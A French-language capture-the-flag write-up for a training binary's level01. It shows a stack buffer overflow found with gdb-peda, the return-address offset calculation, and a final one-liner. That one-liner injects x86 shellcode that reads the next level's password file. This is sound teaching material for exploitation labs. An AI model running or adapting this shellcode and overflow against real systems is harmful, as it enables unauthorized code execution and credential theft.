 # Level 01
<a href="/level02"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- En testant des entrée trop longue on voit que la deuxieme entrée peut etre overflow
<pre>
$> gdb ./level01 
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5b0 ('B' <repeats 15 times>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
</pre>
- On calcule donc le offset pour ecrire sur la Return Address
<pre>
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5a0 ("AAKAAgAA6AAL\n")
EIP: 0x35414166 ('fAA5')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x35414166
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x35414166 in ?? ()
gdb-peda$ pattern offset fAA5
fAA5 found at offset: 75
</pre>
- On recupere l'adress de la stack ou sera stocker le shellcode
<pre>
$> (echo dat\_wil; echo admin) | ltrace ./level01 1>&-
\_\_libc\_start\_main(0x80484d0, 1, -10540, 0x80485c0, 0x8048630 <unfinished ...>
puts("\*\*\*\*\*\*\*\*\* ADMIN LOGIN PROMPT \*\*\*"...)                            = 39
printf("Enter Username: ")                                             = 16
<strong>fgets("dat\_wil\n", 256, 0xf7fcfac0)                                    = 0x0804a040</strong>
puts("verifying username....\n")                                       = 24
puts("Enter Password: ")                                               = 17
fgets("admin\n", 100, 0xf7fcfac0)                                      = 0xffffd5ec
puts("nope, incorrect password...\n")                                  = 29
+++ exited (status 1) +++
</pre>
- Il suffit maintenant de lancer la commande
```
(python -c "print('dat_wil0' + 'jsh.pashl02/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')"; python -c "print('admin' + 'B' * 75 + '\x48\xa0\x04\x08')") | ./level01
```

